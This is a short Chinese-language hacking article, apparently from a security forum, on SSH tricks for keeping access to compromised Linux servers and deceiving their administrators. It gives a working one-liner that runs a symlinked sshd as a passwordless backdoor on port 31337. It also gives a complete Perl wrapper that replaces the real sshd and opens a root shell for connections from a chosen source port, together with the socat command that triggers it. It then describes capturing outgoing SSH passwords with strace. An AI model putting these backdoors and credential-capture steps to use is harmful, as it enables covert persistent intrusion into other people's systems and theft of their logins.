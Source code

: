 # 渗透技巧之SSH篇

用些小技巧，蒙蒙菜鸟管理员。

### 1. 入侵得到SHELL后，对方防火墙没限制，想快速开放一个可以访问的SSH端口

肉鸡上执行

```
mickey@vic:~# ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337; 

```

就会派生一个31337端口，然后连接31337，用root/bin/ftp/mail当用户名，密码随意，就可登陆。

效果图：

![enter image description here](http://drops.javaweb.org/uploads/images/2e30d14a59ea7777cda947d115173921cc016286.jpg)

### 2. 做一个SSH wrapper后门，效果比第一个好，没有开放额外的端口，只要对方开了SSH服务，就能远程连接

在肉鸡上执行：

```
[root@localhost ~]# cd /usr/sbin
[root@localhost sbin]# mv sshd ../bin
[root@localhost sbin]# echo '#!/usr/bin/perl' >sshd
[root@localhost sbin]# echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
[root@localhost sbin]# echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
[root@localhost sbin]# chmod u+x sshd
[root@localhost sbin]# /etc/init.d/sshd restart

```

在本机执行：

```
socat STDIO TCP4:10.18.180.20:22,sourceport=13377

```

如果你想修改源端口，可以用python的struct标准库实现

```
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A

```

效果图如下：

![enter image description here](http://static.wooyun.org/20140918/2014091812470923422.png)

### 3. 记录SSH客户端连接密码

搞定主机后，往往想记录肉鸡SSH连接到其他主机的密码，进一步扩大战果，使用strace命令就行了。

效果图：

![enter image description here](http://drops.javaweb.org/uploads/images/bbceff9ee795e8fcc01f6383eed5f1a80ab84182.jpg)
